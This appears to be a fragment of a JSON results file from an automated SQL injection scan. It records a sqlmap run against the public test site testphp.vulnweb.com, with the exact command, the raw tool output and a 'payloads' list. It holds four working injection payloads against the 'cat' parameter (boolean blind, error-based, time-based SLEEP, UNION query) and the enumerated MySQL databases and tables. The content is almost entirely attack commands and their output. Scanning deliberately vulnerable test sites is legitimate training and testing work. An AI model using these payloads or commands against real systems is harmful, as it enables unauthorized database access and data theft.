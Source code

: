 ```json
    "raw_result": "        ___\n       __H__\n ___ ___[)]_____ ___ ___  {1.9.3.4#dev}\n|_ -| . [(]     | .'| . |\n|___|_  [\"]_|_|_|__,|  _|\n      |_|V...       |_|   https://sqlmap.org\n\n[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program\n\n[*] starting @ 19:43:25 /2025-03-29/\n\n[19:43:27] [INFO] testing connection to the target URL\nsqlmap resumed the following injection point(s) from stored session:\n---\nParameter: cat (GET)\n    Type: boolean-based blind\n    Title: Boolean-based blind - Parameter replace (original value)\n    Payload: cat=(SELECT (CASE WHEN (3918=3918) THEN 12 ELSE (SELECT 6516 UNION SELECT 1824) END))\n\n    Type: error-based\n    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)\n    Payload: cat=12 AND GTID_SUBSET(CONCAT(0x7176717071,(SELECT (ELT(3742=3742,1))),0x7162706b71),3742)\n\n    Type: time-based blind\n    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)\n    Payload: cat=12 AND (SELECT 2321 FROM (SELECT(SLEEP(5)))cKgu)\n\n    Type: UNION query\n    Title: Generic UNION query (NULL) - 11 columns\n    Payload: cat=12 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176717071,0x4a61754b68596e4c74794e6b52544d4b506967536c4c534b6173646b6954724d676269494f697842,0x7162706b71),NULL-- -\n---\n[19:43:28] [INFO] testing MySQL\n[19:43:28] [INFO] confirming MySQL\n[19:43:28] [INFO] the back-end DBMS is MySQL\nweb server operating system: Linux Ubuntu\nweb application technology: PHP 5.6.40, Nginx 1.19.0\nback-end DBMS: MySQL >= 8.0.0\n[19:43:28] [INFO] fetching tables for database: 'acuart'\nDatabase: acuart\n[8 tables]\n+-----------+\n| artists   |\n| carts     |\n| categ     |\n| featured  |\n| guestbook |\n| pictures  |\n| products  |\n| users     |\n+-----------+\n\n[*] ending @ 19:43:28 /2025-03-29/\n",
    "url": "",
    "extracted": {}
  },
  "scan_history": [
    {
      "step": "initial_assessment",
      "command": "sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=12 --batch --dbs --threads=5",
      "result": {
        "vulnerable_parameters": [
          "cat"
        ],
        "techniques": [
          "MySQL"
        ],
        "databases": [
          "acuart",
          "information_schema"
        ],
        "tables": [],
        "columns": {},
        "dbms": "MySQL 8",
        "os": "Linux Ubuntu",
        "waf_detected": false,
        "web_app": [
          "PHP 5.6.40",
          "Nginx 1.19.0"
        ],
        "payloads": [
          "cat=(SELECT (CASE WHEN (3918=3918) THEN 12 ELSE (SELECT 6516 UNION SELECT 1824) END))",
          "cat=12 AND GTID_SUBSET(CONCAT(0x7176717071,(SELECT (ELT(3742=3742,1))),0x7162706b71),3742)",
          "cat=12 AND (SELECT 2321 FROM (SELECT(SLEEP(5)))cKgu)",
          "cat=12 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176717071,0x4a61754b68596e4c74794e6b52544d4b506967536c4c534b6173646b6954724d676269494f697842,0x7162706b71),NULL-- -"
        ],
        "raw_result": "SQLMap output truncated for readability",
        "url": "",
        "extracted": {}
      }
    },
```